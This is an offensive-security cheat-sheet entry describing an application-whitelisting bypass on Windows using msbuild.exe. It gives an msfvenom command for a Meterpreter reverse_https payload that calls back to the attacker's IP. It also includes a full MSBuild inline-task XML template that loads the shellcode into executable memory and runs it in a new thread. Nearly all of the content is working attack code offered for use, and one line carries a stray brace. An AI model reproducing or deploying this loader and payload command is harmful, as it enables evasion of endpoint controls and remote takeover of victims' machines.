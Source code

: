 ## Execute C\#

### msbuild.exe

Use the following shell temlate and insert the csharp code and save as an xml

Replace “INSERT\_SHELLCODE\_HERE” in the template with the shellcode generated from Metasploit.

Note1: This includes "byte\[\] shellcode = new byte\[\]"

Note2: Use metasploit to generate C\# shellcode with the follow command: “msfvenom -a x86 –platform windows -p windows/meterpreter/reverse\_https LHOST=192.168.X.X LPORT=443 -f csharp”. Replace the value of LHOST with your own ip address.

```
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
 <!-- This inline task executes shellcode. -->
 <!-- C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj -->
 <!-- Save This File And Execute The Above Command -->
 <!-- Author: Casey Smith, Twitter: @subTee -->
 <!-- License: BSD 3-Clause -->
 <Target Name="Hello">
 <ClassExample />
 </Target>
 <UsingTask
 TaskName="ClassExample"
 TaskFactory="CodeTaskFactory"
 AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
 <Task>

 <Code Type="Class" Language="cs">
 <![CDATA[
 using System;
 using System.Runtime.InteropServices;
 using Microsoft.Build.Framework;
 using Microsoft.Build.Utilities;
 public class ClassExample : Task, ITask
 { 
 private static UInt32 MEM_COMMIT = 0x1000; 
 private static UInt32 PAGE_EXECUTE_READWRITE = 0x40; 
 [DllImport("kernel32")]
 private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
 UInt32 size, UInt32 flAllocationType, UInt32 flProtect); 
 [DllImport("kernel32")]
 private static extern IntPtr CreateThread( 
 UInt32 lpThreadAttributes,
 UInt32 dwStackSize,
 UInt32 lpStartAddress,
 IntPtr param,
 UInt32 dwCreationFlags,
 ref UInt32 lpThreadId 
 );
 [DllImport("kernel32")]
 private static extern UInt32 WaitForSingleObject( 
 IntPtr hHandle,
 UInt32 dwMilliseconds
 ); 
 public override bool Execute()
 {
 byte[] shellcode = new byte[] { INSERT_SHELLCODE_HERE } };

 UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,
 MEM_COMMIT, PAGE_EXECUTE_READWRITE);
 Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
 IntPtr hThread = IntPtr.Zero;
 UInt32 threadId = 0;
 IntPtr pinfo = IntPtr.Zero;
 hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
 WaitForSingleObject(hThread, 0xFFFFFFFF);
 return true;
 } 
 } 
 ]]>
 </Code>
 </Task>
 </UsingTask>
 </Project>
```

[GreatSCT](https://github.com/ConsciousHacker/GreatSCT)--tool to automatically generate the xml file.

References:

[https://blog.conscioushacker.io/index.php/2017/11/17/application-whitelisting-bypass-msbuild-exe/](https://blog.conscioushacker.io/index.php/2017/11/17/application-whitelisting-bypass-msbuild-exe/)


